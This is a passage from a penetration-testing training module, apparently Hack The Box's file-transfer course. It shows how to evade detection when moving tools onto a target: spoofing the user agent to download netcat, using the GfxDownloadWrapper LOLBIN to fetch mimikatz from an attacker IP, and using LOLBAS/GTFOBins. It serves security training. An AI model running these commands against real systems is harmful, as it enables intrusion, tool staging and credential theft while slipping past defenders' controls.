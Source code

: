
___

## Changing User Agent

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.

#### Listing out User Agents

Evading Detection

```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

#### Request with Chrome User Agent

Evading Detection

```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

Evading Detection

```shell
6165@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

___

## LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

#### Transferring File with GfxDownloadWrapper.exe

Evading Detection

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

___

## Closing Thoughts

As we've seen in this module, there are many ways to transfer files to and from our attack host between Windows and Linux systems. It's worth practicing as many of these as possible throughout the modules in the Penetration Tester path. Got a web shell on a target? Try downloading a file to the target for additional enumeration using Certutil. Need to download a file off the target? Try an Impacket SMB server or a Python web server with upload capabilities. Refer back to this module periodically and strive to use all the methods taught in some fashion. Also, take some time whenever you're working on a target or lab to search for a LOLBin or GTFOBin that you've never worked with before to accomplish your file transfer goals.